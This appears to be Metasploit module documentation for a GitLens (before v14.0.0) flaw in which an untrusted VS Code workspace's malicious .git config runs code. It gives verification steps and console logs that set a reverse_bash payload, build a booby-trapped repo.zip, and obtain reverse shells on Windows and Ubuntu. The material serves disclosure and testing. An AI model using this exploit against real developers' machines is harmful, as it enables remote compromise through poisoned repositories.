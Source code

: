 ## Vulnerable Application

GitKraken GitLens before v.14.0.0 allows an untrusted workspace to execute git
commands. A repo may include its own .git folder including a malicious config file to
execute arbitrary code.

Tested against VSCode 1.87.2 with GitLens 13.6.0 on Ubuntu 22.04 and Windows 10

### Install

Download the extension [gitlens-13.6.0.vsix](https://github.com/gitkraken/vscode-gitlens/releases/download/v13.6.0/gitlens-13.6.0.vsix)

1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, Auto Update Extensions -> None.
1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, install from vsix.

## Verification Steps

1. Install the extension
1. Start msfconsole
1. Do: `use exploit/multi/fileformat/gitlens_local_config_exec`
1. Do: `run`
1. Unzip the repo
1. Open the folder in Visual Studio Code
1. When prompted, select "No, I don't trust the authors"
1. Open the `README.md` file and put the cursor on the first line.
1. You should get a shell.

## Options

### README

The content of the `README.md` file. Defaults to `# Test`

## Scenarios

### VSCode 1.87.2 on Windows 10 Pro (22H2) with GitLens 13.6.0

```
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set target 1
target => 1
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf6 exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
[*] Sending stage (336 bytes) to 192.168.10.100
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.100:62807) at 2024-03-19 17:46:46 +0000


Shell Banner:
Microsoft Windows [Version 10.0.19045.4170]
-----
          

C:\Users\h00die\Desktop\repo>whoami
whoami
h00die

C:\Users\h00die\Desktop\repo>
```
### VSCode 1.87.2 on Windows 10 Pro (1809), utilizing remote connection to Ubuntu 22.04 with GitLens 13.6.0 installed

```
$ ./msfconsole -qr gitlens.rb 
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf6 exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.147:53600) at 2024-03-19 18:26:04 +0000

[*] Command shell session 2 opened (192.168.10.147:4444 -> 192.168.10.147:53612) at 2024-03-19 18:26:06 +0000
id
uid=1000(notroot) gid=1000(notroot) groups=1000(notroot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),119(docker)
```